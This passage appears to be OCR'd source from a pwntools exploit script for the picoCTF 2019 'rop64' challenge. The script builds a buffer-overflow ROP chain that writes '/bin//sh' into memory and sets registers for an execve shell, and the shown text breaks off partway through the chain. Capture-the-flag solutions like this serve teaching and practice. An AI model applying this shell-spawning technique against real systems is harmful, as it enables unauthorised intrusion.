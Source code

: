 ```python
  sh = process(BINARY, stdout=stdout, stdin=stdin)

  if DEBUG:
    attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('vuln', cwd='/problems/rop64_5_7608f52be26a84e5625c50ba7adb22e0')
  REMOTE = True


# ROPgadget --binary ./vuln --rop --badbytes "0a"
from struct import pack

p = 'a'*(16+8)
p += pack('<Q', 0x00000000004100d3) # pop rsi ; ret
p += pack('<Q', 0x00000000006b90e0) # @ .data
p += pack('<Q', 0x00000000004156f4) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000047f561) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x00000000004100d3) # pop rsi ; ret
p += pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += pack('<Q', 0x0000000000444c50) # xor rax, rax ; ret
p += pack('<Q', 0x000000000047f561) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000400686) # pop rdi ; ret
p += pack('<Q', 0x00000000006b90e0) # @ .data
p += pack('<Q', 0x00000000004100d3) # pop rsi ; ret
p += pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += pack('<Q', 0x00000000004499b5) # pop rdx ; ret
p += pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += pack('<Q', 0x0000000000444c50) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
```